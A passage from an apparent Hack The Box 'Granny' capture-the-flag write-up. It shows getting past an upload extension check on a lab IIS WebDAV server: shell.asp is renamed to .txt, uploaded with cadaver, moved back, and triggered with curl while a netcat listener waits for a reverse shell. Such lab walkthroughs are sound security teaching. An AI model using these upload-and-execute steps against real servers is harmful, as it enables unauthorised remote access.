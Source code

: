 ```sh
<li>Go to <a href="http://go.microsoft.com/fwlink/?linkid=8180">Microsoft Product Support Services</a> and perform a title search for the words <b>HTTP</b> and <b>405</b>.</li>
<li>Open <b>IIS Help</b>, which is accessible in IIS Manager (inetmgr),
 and search for topics titled <b>Setting Application Mappings</b>, <b>Securing Your Site with Web Site Permissions</b>, and <b>About Custom Error Messages</b>.</li>
</ul>

</TD></TR></TABLE></BODY></HTML>
```
{% endraw %}

<br />
Perhaps, there is an extension check preventing the upload.  Let's test this.  Change the extension to txt.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/granny]
└─$ cp shell.asp shell.txt
```
{% endraw %}

<br />
Start a netcat listener.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/granny]
└─$ sudo nc -nlvp 443                              
listening on [any] 443 ...
```
{% endraw %}

<br />
Try using cadever to upload the file to the webserver.  Then use the MOVE command to change the extension back to .asp.  Finally, use curl to execute the payload.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/granny]
└─$ cadaver http://10.10.10.15                     
dav:/> put shell.txt
Uploading shell.txt to `/shell.txt':
Progress: [=============================>] 100.0% of 38252 bytes succeeded.
dav:/> move shell.txt shell.asp
Moving `/shell.txt' to `/shell.asp': failed:
Could not parse response: XML parse error at line 1: Extra content at the end of the document

┌──(kali㉿kali)-[~/Documents/htb/granny]
└─$ curl http://10.10.10.15/shell.asp
```
{% endraw %}

<br />
Check the listener and catch the shell.
